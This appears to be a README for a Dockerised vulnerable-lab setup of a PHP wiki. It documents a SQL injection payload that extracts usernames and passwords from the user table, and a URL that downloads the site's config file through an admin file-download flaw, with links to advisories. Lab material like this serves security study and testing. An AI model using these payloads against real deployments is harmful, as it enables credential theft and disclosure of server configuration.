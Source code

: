 ## 系统安装

```
docker-compose build 
docker-compose up -d
```



## 漏洞一:
/control/edition.php sql注入漏洞

PAYLOAD:
eid[0]=2&eid[1]=19&eid[2]=-3) UNION SELECT 1,2,35,4,5,6,7,8,9,10,user(),username,password,14,15,16,17,18,19 from wiki_user%23
![](zoro1.png)

## 漏洞二:
任意文件下载漏洞，此漏洞需要admin权限才能下载
http://127.0.0.1:8002/index.php?admin_db-downloadfile-/**/**/config*php


[引用一](http://0day5.com/archives/2978/)
[引用二](https://www.seebug.org/vuldb/ssvid-91814)
[引用三](http://blog.sina.com.cn/s/blog_6920343901011jmh.html)
[引用四](https://bugs.leavesongs.com/php/hdwiki%E6%B3%A8%E5%85%A5%E5%AF%BC%E8%87%B4%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD/)
[引用五](https://www.secpulse.com/archives/7852.html)
[引用六](http://www.yunsec.net/a/security/bugs/script/2012/0406/10410.html)
[引用七](https://www.secpulse.com/archives/32842.html)


